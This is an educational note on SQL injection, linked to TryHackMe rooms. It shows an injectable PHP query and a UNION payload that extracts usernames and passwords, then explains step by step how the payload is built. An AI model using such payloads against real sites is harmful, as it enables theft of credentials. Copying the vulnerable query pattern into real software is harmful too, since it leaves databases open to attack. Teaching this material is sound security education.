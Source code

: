 # SQL injections (SQLi)

[![sqlinjectionlm](../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-md-2"><div>

Most websites are using SQL database to store records. Injections are possible, when a query to a database uses data from the user (ex: username), without escaping it, meaning that an attack why use some SQL code, instead of a username. This would allow a hacker to access the database, to steal/edit/delete data...

**Example of injectable PHP code**: this code is fetching a list of products matching the product name send by the client.

```php
$sql = "Select name,desc from product where name LIKE '%$name%'";
```

If the user enter the following payload (value) instead of a product name

```php
' UNION Select username,password FROM users-- -
```

Then, the SQL query that will be executed will be

```sql
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users-- -%'
```

UNION is used to concatenate the results of two queries, here the first one return a list of products, while the second one return a list (username,password).
</div><div>

**How we created this payload:**

**Test `'`**: because the value in inside quotes, we need to close it.

```sql
Select name,desc from product where name LIKE '%'%'
```

The problem, is that now the query won't work, because we have a trailing `%'`. So, we comment the rest of the query with `' --`.

```sql
Select name,desc from product where name LIKE '%' --%'
```

The code above may not work on some DBMS, because they want a space between the start of a comment, and the comment itself. So, we add "` -`", to ensure that there is a space giving us **`'-- -`**.
